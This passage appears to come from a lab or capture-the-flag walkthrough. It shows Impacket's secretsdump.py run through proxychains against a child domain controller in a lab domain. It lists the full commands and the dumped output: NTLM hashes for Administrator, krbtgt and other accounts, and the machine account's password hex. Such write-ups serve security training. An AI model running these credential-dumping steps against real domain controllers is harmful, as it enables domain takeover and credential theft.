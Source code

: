 <br/>

## Hash dumping on Child-DC

Use Impacket `secretdump.py` to dump hashes on Child-DC:

```
proxychains secretsdump.py -k -no-pass -just-dc-user adm_domain -debug -dc-ip 10.1.1.2 adm_domain@OPS-CHILDDC
```

<br/>

The NTLM hash of `adm_domain` is obtained `3d15cb1141d579823f8bb08f1f23e316`:
![picture 15](images/589d7dca8aa16299157bd50b890142b15c4d8e49c0de75c30d9e7aaedbdbae6d.png)  

<br/>

Also dump all the hashes in the `ntds.dit` database since this is a DC:

```
proxychains secretsdump.py -k -no-pass -debug -dc-ip 10.1.1.2 adm_domain@OPS-CHILDDC
```

```                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:56df9bfe3024dd4eb25b412ead89fe08:::

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

OPERATIONS\OPS-CHILDDC$:plain_password_hex:387d08d86a6383f9163bcca0d01896d6501e47135dccdbd10296852d8acf70bd0e92b2796ae215395046deac5c12e58f2535177a536972fa6bd784350b975cba831e237829a9017ea9623fa8567be6159c95f46ae
a2465504b3019fa3992ddbec78e55d1adfc44819d83754b577e91762568f50becacb418320d97444d9da8447e23feec121a3b625a0521f508c69551cea74b91f6f3c7934364caf1167ace1c94e47391331475e682b67e2d5c706cdb01370da98ad7dbdb6778be413eece
0115966fb73c6986786afaa6795e7fbd35660e5964d81c65b0d0e040cc1546d6782e462c91cef06b18c6ce26fda97927176

OPERATIONS\OPS-CHILDDC$:aad3b435b51404eeaad3b435b51404ee:557a460cc1438fb35870b75383608196:::

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8e2b8effbf6735b8fb5be206cb3dfead:::

operations.atomic.site\sysadmin:1110:aad3b435b51404eeaad3b435b51404ee:33da4461cc64d97d6766bea54d8824c7:::

operations.atomic.site\support:1114:aad3b435b51404eeaad3b435b51404ee:dd8ab1ad74d9faf1900eac349c8fb3e5:::

[+] Decrypting hash for user: CN=Homi Jehangir Bhabha,OU=Employee,DC=operations,DC=atomic,DC=site
```